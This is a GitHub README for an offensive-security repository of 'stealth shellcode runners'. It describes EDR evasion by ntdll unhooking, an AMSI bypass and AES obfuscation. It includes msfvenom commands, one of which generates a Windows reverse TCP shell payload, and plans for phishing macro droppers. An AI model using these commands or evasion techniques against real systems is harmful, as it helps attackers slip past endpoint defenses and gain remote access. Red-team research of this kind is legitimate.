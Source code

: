 # Stealth shellcode runners :wolf:
## EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

### This repo was started as a place to host a xml shellcode generating tool written as part of a [blog post](https://github.com/kymb0/kymb0.github.io/blob/master/_posts/2021-05-07-defeat-edr-unhook.md) on EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

I started writing these tools as a way to both challenge myself and expand upon my knowledge within the esoteric world of AV/EDR evasion.
Currently tested again 1 x enterprise grade EDR solution, however I expect that this technique will be patched soon.

## :eight_spoked_asterisk: stealth_xml_shellcode_runner.py: 
Usage: `script.py payload.bin`  
Example payloads: `msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin`  
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > shell.bin`

For Cobalt Strike you will need to use a custom profile, and using the payload generator seems to work best, rather than selecting Windows Executable from packages.

If anyone wants to build their own tools/malware in C#, there are many fantastic resources out there, however I also included some c# templates that you can reference.

### To do:
[:gem:] Build option to generate payload for `C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe`  
[:gem:] Build option to generate macros for use with phishing droppers  
[:gem:] Add options for different obfuscation and evasion techniques e.g. explore Halo's gate implementation  

I keep my notes on malware dev [here](https://github.com/kymb0/Malware_learns)

Follow me on [twitter](https://twitter.com/kymb0_irl) if you want.
